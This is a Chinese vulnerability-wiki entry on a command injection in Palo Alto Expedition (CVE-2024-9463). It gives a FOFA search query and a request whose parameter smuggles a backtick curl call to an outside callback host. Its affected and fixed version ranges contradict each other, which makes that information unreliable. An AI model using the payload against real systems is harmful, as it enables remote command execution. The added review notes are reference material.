

# Palo Alto Networks Expedition 远程命令执行漏洞(CVE-2024-9463) 

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Palo Alto Expedition
- 本文讨论：CVE-2024-9463 convertCSVtoParquet命令注入
- 版本、权限与配置前提：认证未说明；影响和修复均写&gt;=1.2.92
- 资料类型：请求型PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 受影响与安全版本范围完全相同，明确内在矛盾；与215的&lt;1.2.96也冲突
- frontmatter fofa只剩title=；在野利用标已知无来源
- 请求未用代码块，固定第三方回连域名应参数化
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 真实修复版本及在野利用证据需原始公告
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


# 漏洞描述

Palo Alto Networks Expedition convertCSVtoParquet 接口存在远程命令执行漏洞。恶意攻击者可以利用该漏洞远程执行任意命令，获取系统权限。

# 影响版本

Palo Alto Networks Expedition >= 1.2.92

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="Expedition Project"

POC/EXP：

```http
POST /API/convertCSVtoParquet.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
```


ram=watchTowr`curl+http://qpfkpol8.eyes.sh`





# 修复方案

针对此漏洞,官方已经发布了漏洞修复版本,请立即更新到安全版本:
Palo Alto Networks Expedition >= 1.2.92

下载链接:
https://live.paloaltonetworks.com/t5/expedition/ct-p/migration_tool

安装前,请确保备份所有关键数据,并按照官方指南进行操作。安装后,进行全面测试以验证漏洞已被彻底修复,并确保系统其他功能正常运行


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
